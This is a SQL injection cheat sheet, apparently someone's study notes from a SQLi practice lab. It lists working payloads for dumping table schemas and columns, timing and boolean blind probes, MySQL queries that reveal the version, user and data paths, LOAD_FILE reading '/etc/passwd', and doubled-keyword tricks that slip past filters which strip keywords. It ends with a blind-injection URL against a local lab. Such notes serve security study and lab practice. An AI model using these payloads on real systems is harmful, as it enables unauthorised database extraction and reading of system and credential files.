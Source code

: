 ```sql
TO LEAK THE WHOLE SCHEMA OF A TABLE IN SQLITE:

SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE type='table'

Leak the ONE column from a table
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"
IF THIS DOES NOT WORK, TRY WITHOUT THE QUOTES!!

In-line Conditions (an if statement)
SELECT "value" CASE WHEN condition>0 THEN 'return this' ELSE 'return instead' END
This may be best used with timing attacks, like SLEEP(1) as the else condition action. Other option might be:

SELECT ( IF ( 1=1, "Condition successful!", "Condition errored!" ) )
Get the path of the running MySQL instance
SELECT @@datadir
Get the version of the running MySQL instance
SELECT @@version
Get current user
SELECT user();
SELECT system_user();
Read a file
SELECT LOAD_FILE("/etc/passwd");
Etcetera..
Some applications try to replace keywords with an empty string. If this is the case, try and trick it by placing the keyword inside of itself. This is devious!

frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select


23)
Variable/function	Output
user()	Current User
database()	Current Database
version()	Database Version
schema()	Current Database
UUID()	System UUID Key
current_user()	Current User
system_user()	Current System User
session_user()	Session User
@@hostname	Current Hostname
@@tmpdir	Temporary Directory
@@datadir	Data Directory
@@version	Version of Database
@@basedir	Base Directory
@@GLOBAL.have_symlink	Check if the symlink is Enabled or Disabled
@@GLOBAL.have_ssl	Check if it SSL is available


24)multiple group_concats are possible seperated by a comma if only 1 row being displayed use limit 1,1 then limit 2,1 like that
if the first row being displayed from union and only limit 1 the give invalid input so that our union row will be displayed



25)http://localhost:81/sqli/Less-8/?id=1' AND (length(database())) = 1 --+   length is also a function make sure to wrap it around ()

26)another name for substring is substr and (ascii) also can be used like so
```